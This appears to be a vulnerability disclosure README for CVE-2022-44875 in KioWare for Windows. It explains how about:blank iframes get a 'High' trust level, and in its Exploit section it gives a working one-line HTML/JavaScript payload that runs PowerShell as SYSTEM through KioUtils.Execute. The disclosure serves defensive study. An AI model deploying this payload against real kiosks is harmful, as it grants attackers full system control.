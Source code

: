 # CVE-2022-44875
## Discovery
Looking through documentation, it can be found that KioWare for Windows has a lot of interesting custom APIs. Specifically the `KioUtils.Execute` that allows for running code as local admin: https://m.kioware.com/api/windows/8.30/javascript/kioutils.
These APIs are by default not available, unless a certain "Trust Level" is set in the web context.
The "KioWare Client.exe" binary is .NET, and can therefore trivially be decompiled meaningfully with tools like ILSpy.

Looking through the source and using a debugger, an interesting function can be found:
`ADSI.KioWare.Client.Platform.Client.KioBrowserFrame` has a function called `GetScriptingAclActions` which return `KioScriptingUrlACL.AclActions.AllowHigh` if the URL matches `_alwaysAllowedAclUrlsRegex`.
`ADSI.KioWare.Client.Platform.Client._AppContext` assigns a regex to `_alwaysAllowedAclUrlsRegex` which includes the User-Writable Program Data directory, as well as `about:blank`.
Especially `about:blank` is problematic, as any new iframe without a src attribute uses that as origin. This means that an attacker can write arbitrary js in an iframe that then has the Trust Level "High", which allows for using `KioUtils.Execute`

This would also allow for LPE if one has access to the kiosk as a low privilege user.
## Exploit
```html
<script>c=document.createElement("iframe");document.body.appendChild(c);c.contentWindow.eval("KioUtils.Execute('powershell',true)")</script>
```

If a Kiosk visits a page serving that script, or an XSS is found in a page that is possible to visit a powershell running as `nt authority\system` is spawned.
